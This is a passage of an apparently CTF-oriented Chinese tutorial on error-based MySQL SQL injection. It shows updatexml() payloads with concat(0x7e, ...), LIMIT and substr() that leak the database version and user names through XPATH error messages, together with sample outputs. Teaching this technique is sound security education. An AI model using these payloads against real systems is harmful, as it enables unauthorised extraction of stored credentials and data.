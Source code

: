     其中，`xml_target`是要更新的XML数据，`xpath_expr`是要更新的节点路 径，`new_value`是新的节点值。

    但是这个函数有一个缺陷，如果二个参数包含特殊符号时会报错，并且会第二 个参数的内容显示在报错信息中

    ```
    mysql> SELECT username, password FROM users WHERE id = 1 and    updatexml(1, 0x7e, 3);
    1105 - XPATH syntax error: '~'
    ```

    那么通过这个特性，我们用 `concat()` 函数 将查询语句和特殊符号拼接 在一起，就可以将查询结果显示在报错信息中

    ```sql
    SELECT username, password FROM users WHERE id = 1 and updatexml(1, concat(0x7e,version()), 3) 
    ```

    输出:

    ```sql
    mysql> SELECT username, password FROM users WHERE id = 1 and  updatexml(1, concat(0x7e,version()), 3);
    1105 - XPATH syntax error: '~8.0.12'
    ```

    不过要注意的是 `updatexml()` 的报错长度存在字符长度限制，目前有两 种方法来解决这个问题：

    * `LIMIT()`

    ```sql
    SELECT username, password FROM users WHERE id = 1 and   updatexml(1,concat(0x7e,
    (select username from users 
    limit 1,1)),
    3);
    # 不断改变limit NUM,1 的值逐行获取
    ```

    ![image-20230505011056626](https://nssctf.wdf.ink/img/WDTJ/202305050110708.png)

    * `substr()`

    ```sql
    SELECT username, password FROM users WHERE id = 1 and updatexml(1,concat(0x7e,
    substr(
    (select group_concat(username) from users),
    1,31)
    ),3);
    ```

    执行结果：

    ```sql
    mysql> SELECT username, password FROM users WHERE id = 1 and updatexml(1,concat(0x7e,
    substr(
    (select group_concat(username) from users),1,31)
    ),3);
    1105 - XPATH syntax error: '~admin,super,flag,null'
    ```
